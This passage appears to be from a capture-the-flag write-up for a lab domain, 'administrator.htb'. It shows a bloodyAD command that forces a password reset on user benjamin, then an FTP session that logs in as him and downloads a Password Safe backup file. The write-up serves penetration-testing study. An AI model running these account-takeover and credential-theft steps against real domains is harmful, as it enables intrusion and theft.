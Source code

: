 and for benjamin same command

```bash
➜  administrator bloodyAD --host DC.administrator.htb -d administrator.htb -u michael -p NewPassword123 set password benjamin NewPassword123

[+] Password changed successfully!
```
![alt text](<../assets/images/Screenshot 2025-03-15 at 00-23-55 BloodHound(1).png>)

so lets access FTP with benjamin

```bash
➜  administrator ftp administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:elliot): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||62368|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||62369|)
125 Data connection already open; Transfer starting.
100% |*********************************************************************************|   952       11.32 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (11.29 KiB/s)
```
